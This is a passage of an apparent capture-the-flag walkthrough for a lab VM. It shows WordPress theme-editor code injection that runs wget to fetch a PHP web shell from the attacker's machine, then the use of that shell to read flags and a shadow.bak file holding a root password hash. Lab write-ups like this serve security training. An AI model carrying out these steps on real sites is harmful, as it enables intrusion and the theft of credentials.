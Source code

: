 Now we an log into wordpress and try to gain the flag(s):

# Stepping Up

So browsing to `http://minotaur.example.co.uk/bull/` and logging in let us log in with the credentials.

# Style Council

Now we can click on `Apperance > Editor >  Main Index Template` (index.php) and put in some PHP code:

`shell_exec("wget http://192.168.100.190:8000/knightmare_shell.php");`

In our shell (Oh Michelle!):

```
knightmare@kali:[~/hack/web/shells/phpshells]$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.100.44 - - [13/Apr/2016 17:01:31] "GET /knightmare_shell.php HTTP/1.1" 200 -
```

Browsing to `http://minotaur.example.co.uk/bull/wp-content/themes/twentyfourteen/` triggers the download, although it gives a blank page.

We can now browse to `http://minotaur.example.co.uk/bull/wp-content/themes/twentyfourteen/knightmare_shell.php` and get the action going!

# Quick Leg Up

Now we have a shell, we can jump to the terminal page in the shell, and do some enumaration:

```
/var/www/html/bull/> cd ...
/var/www/html/>ls
bull
flag.txt
index.html

/var/www/html/>cat flag.txt
Oh, lookey here. A flag!
Th15 15 @N 3@5y f1@G!
/var/www/html/>	
```

That's Interesting, but of no use to us. Let's do some basic enumeration:

```
/var/www/html/>
/tmp/>cat flag.txt
That shadow.bak file is probably useful, hey?
Also, you found a flag!
My m1L|<$|-|@|<3 br1|\|G$ @11 t3h b0y$ 2 t3h y@R|)

/tmp/>file shadow.bak
shadow.bak: ASCII text

/tmp/>cat shadow.bak
root:$6$15/OlfJP$h70tk3qikcf.kfwlGpYT7zfFg.cRzlJMlbVDSj3zCg4967ZXG0JzN/6oInrnvGf7AZaJFE2qJdBAOc/3AyeGX.:16569:0:99999:7:::
daemon:*:16484:0:99999:7:::
bin:*:16484:0:99999:7:::
sys:*:16484:0:99999:7:::
sync:*:16484:0:99999:7:::
games:*:16484:0:99999:7:::
man:*:16484:0:99999:7:::
```